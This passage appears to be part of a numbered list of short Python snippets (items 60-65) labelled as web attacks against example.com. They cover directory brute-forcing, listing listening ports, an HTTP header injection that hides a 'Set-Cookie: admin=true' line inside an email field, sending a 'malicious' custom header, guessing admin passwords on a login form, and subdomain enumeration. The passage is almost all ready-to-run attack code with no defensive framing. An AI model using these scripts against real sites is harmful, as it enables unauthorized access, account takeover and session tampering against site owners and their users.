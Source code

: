 ### 60. **Directory Bruteforce Attack with `requests`**
```python
import requests
subdirs = ['admin', 'login', 'dashboard']
for subdir in subdirs:
    url = f'http://example.com/{subdir}'
    response = requests.get(url)
    if response.status_code == 200:
        print(f'Found directory: {url}')
```

### 61. **Check for Open Ports Using `psutil`**
```python
import psutil
open_ports = [p.laddr for p in psutil.net_connections() if p.status == 'LISTEN']
print(open_ports)
```

### 62. **HTTP Header Injection Attack**
```python
import requests
payload = {'name': 'admin', 'email': 'admin@domain.com\nSet-Cookie: admin=true'}
response = requests.post('http://example.com/contact', data=payload)
print(response.text)
```

### 63. **Sending Custom HTTP Headers**
```python
import requests
headers = {'X-Custom-Header': 'malicious_value'}
response = requests.get('http://example.com', headers=headers)
print(response.status_code)
```

### 64. **Automated Password Cracking with `requests`**
```python
import requests
passwords = ['12345', 'password', 'admin123']
for pwd in passwords:
    response = requests.post('http://example.com/login', data={'username': 'admin', 'password': pwd})
    if 'Welcome' in response.text:
        print(f"Password found: {pwd}")
        break
```

### 65. **Subdomain Enumeration with `requests`**
```python
import requests
subdomains = ['www', 'mail', 'ftp']
for subdomain in subdomains:
    url = f'http://{subdomain}.example.com'
    try:
        response = requests.get(url)
        if response.status_code == 200:
            print(f'Found: {url}')
    except requests.exceptions.RequestException:
        pass
```
